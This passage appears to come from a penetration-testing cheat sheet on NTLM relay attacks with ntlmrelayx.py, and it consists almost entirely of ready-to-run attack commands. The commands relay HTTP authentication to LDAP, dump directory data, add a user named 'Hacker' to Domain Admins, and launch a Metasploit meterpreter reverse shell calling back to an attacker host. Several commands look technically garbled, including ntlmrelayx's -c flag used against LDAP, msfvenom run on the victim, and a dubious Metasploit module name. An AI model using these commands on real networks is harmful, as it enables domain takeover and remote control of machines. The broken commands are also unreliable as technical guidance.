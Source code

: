     ntlmrelayx.py -t ldap://<ldap_target_ip> -c "msfconsole -r ldap_exec.rc"
    ```

#### HTTP to LDAP Relay
Relaying NTLM authentication from HTTP to LDAP can be used to interact with directory services in a less conventional manner.

1. **Basic HTTP to LDAP Relay**: Relays NTLM authentication from HTTP to an LDAP target, querying the directory with `dsquery *`.
    ```bash
    ntlmrelayx.py -t ldap://<ldap_target_ip> -c "dsquery *"
    ```
2. **Relay to Query LDAP for Specific Attributes**: Queries specific attributes (`cn` and `description`) from the LDAP directory after relaying authentication.
    ```bash
    ntlmrelayx.py -t ldap://<ldap_target_ip> -c "dsquery * -attr cn description"
    ```
3. **Add Users to LDAP via Relay**: Adds a new user to the LDAP directory and makes them a member of the Domain Admins group.
    ```bash
    ntlmrelayx.py -t ldap://<ldap_target_ip> -c "dsadd user 'CN=Hacker,CN=Users,DC=domain,DC=com' -pwd P@ssw0rd -memberof 'CN=Domain Admins,CN=Users,DC=domain,DC=com'"
    ```
4. **Relay to Create New LDAP Objects**: Creates a new organizational unit in the LDAP directory by relaying NTLM authentication.
    ```bash
    ntlmrelayx.py -t ldap://<ldap_target_ip> -c "dsadd ou 'OU=NewOrgUnit,DC=domain,DC=com'"
    ```
5. **Exfiltrate LDAP Data via Relay**: Exfiltrates all attributes of a base object from the LDAP directory.
    ```bash
    ntlmrelayx.py -t ldap://<ldap_target_ip> -c "dsquery * -scope base -attr *"
    ```

# Penetration Testing Techniques

#### Automated Relaying with Metasploit Integration
Integrating `NTLMRelayX` with Metasploit can automate certain attack paths, such as delivering payloads after a successful relay.

1. **Relay with Metasploit Payload Delivery**: Sets up Metasploit to deliver a reverse shell payload after relaying NTLM authentication.
    ```bash
    msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST <attack_ip>; set LPORT <attack_port>; run -j"
    ntlmrelayx.py -t <target_ip> -c "msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f exe > reverse_shell.exe && reverse_shell.exe"
    ```
2. **Custom Metasploit Resource Script for NTLMRelayX**: Automates the NTLM relay process using a custom Metasploit resource script.
    ```cypher
    cat <<EOF > relay_script.rc
    use auxiliary/admin/smb/ntlmrelayx
    set TARGET <target_ip>
    set COMMAND "whoami"
    exploit
    EOF
    msfconsole -r relay_script.rc
	```

